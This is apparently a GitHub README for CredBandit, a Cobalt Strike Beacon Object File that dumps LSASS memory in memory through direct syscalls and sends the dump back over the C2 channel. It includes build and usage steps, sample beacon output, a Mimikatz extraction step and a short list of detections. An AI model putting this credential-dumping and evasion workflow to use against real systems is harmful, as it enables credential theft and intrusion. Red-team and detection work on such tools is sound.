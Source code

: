 # CredBandit

CredBandit is a proof of concept Beacon Object File (BOF) that uses static x64 syscalls to perform a complete in memory dump of a process and send that back through your already existing Beacon communication channel.  The memory dump is done by using NTFS transactions which allows us to write the dump to memory and the MiniDumpWriteDump API has been replaced with an adaptation of ReactOS's implementation of MiniDumpWriteDump. 

The memory dump is then downloaded over the beacon with Beacon's native download functionality. The advantage of doing it this way is that the dump is never written to disk and is sent via your already established C2 channel. 

# Subject References

This tool wouldn't exist without being able to piggyback off some really great research, tools, and code already published by members of the security community. So thank you. Lastly, if you feel anyone has been left out below, please let me know and I will be sure to get them added.

- Red Team Tactics: Combining Direct System Calls and sRDI to bypass AV/EDR (by [@Cneelis](https://twitter.com/Cneelis)) - [here](https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/)
- Direct Syscalls in Beacon Object Files (by [@Cneelis](https://twitter.com/Cneelis)) - [here](https://outflank.nl/blog/2020/12/26/direct-syscalls-in-beacon-object-files/)
- TransactedSharpMiniDump - [here](https://github.com/PorLaCola25/TransactedSharpMiniDump)
- rookuu/BOFS/MiniDumpWriteDump (by [@rookuu_](https://twitter.com/rookuu_))- [here](https://github.com/rookuu/BOFs/tree/main/MiniDumpWriteDump) - Did all the heavy lifting for converting the ReactOS minidump.c to BOF compatible code
- SysWhispers (by [@Jackson_T](https://twitter.com/Jackson_T))- [here](https://github.com/jthuraisamy/SysWhispers)
- InlineWhsipers - [here](https://github.com/outflanknl/InlineWhispers)
- ([@ilove2pwn_](https://twitter.com/ilove2pwn_)) - Confirmed my original idea of the possibility of being able to use BeaconPrintf() function to send data back through CS, helped me get started with writing/understanding the amazing (insert == sarcasm) sleep language.  I also borrowed and modified little bit of logic for chunking data in C [here](https://gist.github.com/SecIdiot/82e4162e495602f064aba5b42575da5e)
- ([@BinaryFaultline](https://twitter.com/BinaryFaultline)) - Added the ability to use beacon's native download functionality

## Getting Started

1. Copy the credBandit folder with all of its contents and place it a directory just above your cobaltstrike folder on whatever system you plan to connect with via the GUI application.
2. Load in the MiniDumpWriteDump.cna Aggressor script
3. Run credBandit against target LSASS process (or other process)
4. Download the dump file from the Aggressor Downloads console
6. Use Mimikatz to extract the dump file

### Build Your Own

Run the below command inside the src directory
```
x86_64-w64-mingw32-gcc -o credBanditx64.o -c credBandit.c  -masm=intel
```

### Use Case

> *With High or SYSTEM integrity, the operator can perform a memory dump of LSASS without ever touching disk*

### Syntax

Perform memory dump and send back through CS using BeaconPrintf function. The second parameter of output name is optional and will show up in the Aggressor Downloads console as mem:\\[output].dmp

```
beacon> credBandit 708 output
[*] Running credBandit by (@anthemtotheego)
[+] host called home, sent: 18696 bytes
[+] received output:
[+] Attempting To Enable Debug Privs

[+] received output:
[+] Attempting To Dump Proccess 708

[+] received output:
[+] NtOpenProcess returned HANDLE 0x00000000000006CC

[+] received output:
[+] NtCreateTransaction returned HANDLE 0x00000000000006D4

[+] received output:
[+] RtlSetCurrentTransaction successfully set

[+] received output:
[+] NtCreateFile returned HANDLE 0x00000000000006D8

[+] received output:
[+] RtlSetCurrentTransaction successfully set

[+] received output:
[+] OS Version: 10.0.19042

[+] received output:
[+] MiniDump written to memory

[+] received output:
[+] MiniDump Size In Bytes = 109868198

[+] received output:
[+] NtCreateSection created

[+] received output:
[+] NtMapViewOfSection successful

[*] started download of mem:\output.dmp (109868198 bytes)
[*] download of output.dmp is complete
```

## Caveats

1. While I have tried to make this pretty stable, Although this method has become more stable with the download method, BOFs still carry the risk of causing a beacon to crash. Use at your own risk.
2. Process dumps are large, though chunks will be sent at regular beacon intervals.
3. Lastly, I commented in the code places where you could make modifications if you wanted to do other stuff, for example, write to disk instead, add in different encoding/encryption, Comms, etc.
 
## Detection

Some detection and mitigation strategies that could be used:

1. Credential Guard [here](https://docs.microsoft.com/en-us/windows/security/identity-protection/credential-guard/credential-guard-manage)
2. Event Tracing [here](https://docs.microsoft.com/en-us/windows/win32/etw/about-event-tracing)
3. Looking for suspicious processes touching LSASS
4. Looking for other known Cobalt Strike Beacon IOC's or C2 egress/communication IOC's. 
